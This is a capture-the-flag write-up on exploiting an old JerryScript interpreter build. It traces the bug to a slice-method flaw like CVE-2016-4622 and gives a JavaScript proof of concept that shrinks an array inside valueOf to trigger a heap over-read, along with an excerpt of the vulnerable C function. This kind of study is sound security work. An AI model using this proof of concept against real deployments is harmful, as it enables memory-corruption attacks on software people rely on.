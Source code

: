 ## Overall
The challenge is about exploiting a tiny open-soruce javascript interpreter [Jerry](https://github.com/jerryscript-project/jerryscript). The author intentionally reverted several critical bugs by setting the HEAD to an old version, specifically commit ID `d4178ae3`. The solve of this challenge was a collaboration with two brilliant teammates, [n0psledbyte](https://twitter.com/n0psledbyte) and [hk](https://twitter.com/harsh_khuha).

## Finding out the version
At first, we didn't know how to start. It seemed like a closed source binary and we didn't know it had a disclosed source. So I first pointed out that it could be open soruce, and found out that it was indeed, open source. Then [n0psledbyte](https://twitter.com/n0psledbyte) pointed out that it has a commit id within the binary by printing the version. So I reverted the commit and checked that it was made at about July, 2021.

```
commit d4178ae3861fe32c8b350470facd41c8e04171d0 (HEAD)
Author: Zoltan Herczeg <zherczeg.u-szeged@partner.samsung.com>
Date:   Sat Jul 24 09:26:46 2021 +0200

    Support dynamic import calls (#4652)
    
    JerryScript-DCO-1.0-Signed-off-by: Zoltan Herczeg zherczeg.u-szeged@partner.samsung.com
```

Now, I looked at closed issues that were made after July. I used the keyword 'Overflow' to search for memory corruption bugs. Then I found a really [interesting one](https://github.com/jerryscript-project/jerryscript/issues/4777). This bug was exactly the same with a very famous JSC bug known as CVE-2016-4622, described in detail [here](http://phrack.org/issues/70/3.html). So I instantly wrote a working exploit that crashed the interpreter.

```javascript
var a = [];
for (var i = 0; i < 100; i++)
    a.push(i + 0.123);

var b = a.slice(0, {valueOf: function() { a.length = 3; return 10; }});
console.log(b);
```

So basically, what's happening here is that the length of an array is being reduced within the slice method. Therefore, a heap-over-read occurs. This is a source code from `jerry-core/ecma/builtin-objects/ecma-builtin-array-prototype.c`.

```c
static ecma_value_t
ecma_builtin_array_prototype_object_slice (ecma_value_t arg1, /**< start */
                                           ecma_value_t arg2, /**< end */
                                           ecma_object_t *obj_p, /**< object */
                                           ecma_length_t len) /**< object's length */
{
  ecma_length_t start = 0, end = len;

  /* [1] */
  if (ECMA_IS_VALUE_ERROR (ecma_builtin_helper_array_index_normalize (arg1,
                                                                      len,
                                                                      &start)))
  {
    return ECMA_VALUE_ERROR;
  }

  /* [2] */
  if (ecma_is_value_undefined (arg2))
  {
    end = len;
  }
```